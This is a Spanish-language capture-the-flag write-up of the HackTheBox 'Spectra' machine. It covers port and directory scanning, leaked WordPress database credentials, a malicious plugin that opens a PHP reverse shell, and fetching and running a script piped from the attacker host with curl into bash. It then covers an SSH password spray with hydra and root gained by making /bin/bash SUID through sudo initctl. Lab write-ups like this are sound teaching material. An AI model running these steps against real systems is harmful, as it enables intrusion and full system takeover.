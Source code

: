 ```yaml
---
title: HackTheBox - Spectra
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Spectra/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Spectra Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Wordpress, Binary Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Spectra/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Spectra/02-versions.png)

> Añadimos el host `spectra.htb` en el fichero /etc/hosts
{: .prompt-info }

c. Ahora, haremos un fuzzing de directorios 

```bash
❯ wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://spectra.htb/FUZZ/

<SNIP>
000000063:   200        346 L    1460 W     25940 Ch    "main" 
000001458:   200        26 L     111 W      2514 Ch     "testing"
```

* Al visitar este directorio, tendremos la capacidad de **directory listing**, aquí veremos un fichero **wp-config.php.save** y si vemos su código fuente encontramos credenciales. 

    ```php
    <SNIP>
    define( 'DB_PASSWORD', 'devteam01' );
    ```

* En el directorio **/main** encontramos un Wordpress con un usuario

![](/assets/images/HTB/Easy/Spectra/03-user.png)

* Nos autenticamos con este usuario y la contraseña, previamente encontrada, en Wordpress

d. Para entablarnos una reverse shell instalamos un nuevo plugin 

```bash
❯ cat backup.php

/**
* Plugin Name: Backup
* Plugin URI:
* Description: Backup
* Version: 1.0
* Author: Testing
* Author URI: http://www.testing.com
*/

# Copiamos el contenido de esta reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

❯ zip backup.zip backup.php
```

* Ahora, instalamos este plugin en Wordpress y luego de este paso, damos clic en 'Activar Plugin'

    ![](/assets/images/HTB/Easy/Spectra/04-add.png)

* Con todos los pasos anteriores ya tendremos una reverse shell

    ```bash
    ❯ nc -lvnp 4444
    $ whoami
    nginx
    ```

### Escalada de Privilegios 💹

a. Subiremos `LinPEAS` para descubrir ficheros de configuración o alguna forma de escalar privilegios

```bash
❯ ls
linpeas.sh
❯ python -m http.server 80
----------------------------------------
nginx@spectra /tmp $ curl 10.10.14.18/linpeas.sh | bash

<SNIP>
╔══════════╣ Analyzing Autologin Files (limit 70)
drwxr-xr-x 2 root root 4096 Feb  3  2021 /etc/autologin
```

* Si vamos a este directorio encontraremos una contraseña

    ```bash
    nginx@spectra /etc/autologin $ cat passwd 
    SummerHereWeCome!!
    ```

* Tenemos varios usuarios en el sistema, así que haremos fuerza bruta con hydra

    ```bash
    ❯ cat users
    chronos
    katie
    root
    user
    ❯ hydra -L users -p 'SummerHereWeCome!!' ssh://10.10.10.229 -t 4
    [22][ssh] host: 10.10.10.229   login: katie   password: SummerHereWeCome!!
    ```

b. Nos autenticamos en el servicio SSH y listamos nuestros privilegios a nivel de sudoers

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

> `/sbin/initctl` se usa para gestionar servicios, eventos y su configuración. Esta configuración es almacenada en **/etc/init**
{: .prompt-info }

* Listamos los servicio disponibles

    ```bash
    katie@spectra ~ $ ls /etc/init
    activate_date.conf       cryptohome-update-userdataauth.conf   ippusb.conf        pre-shutdown.conf    test.conf
    anomaly-detector.conf    cryptohomed-client.conf               iptables.conf      pre-startup.conf     test2.conf
    ```

* Modificamos alguno de estos para ejecutar un comando al iniciar un servicio

    ```bash
    katie@spectra ~ $ cat /etc/init/test2.conf

    <SNIP>
    script
        chmod +s /bin/bash
    end script
    ```

* Por último, iniciamos este servicio y podremos acceder como root

    ```bash
    katie@spectra ~ $ sudo /sbin/initctl start test2                                    
    test2 start/running, process 18269
    katie@spectra ~ $ ls -la /bin/bash   
    -rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
    katie@spectra ~ $ bash -p            
    bash-4.3# whoami
    root
    ```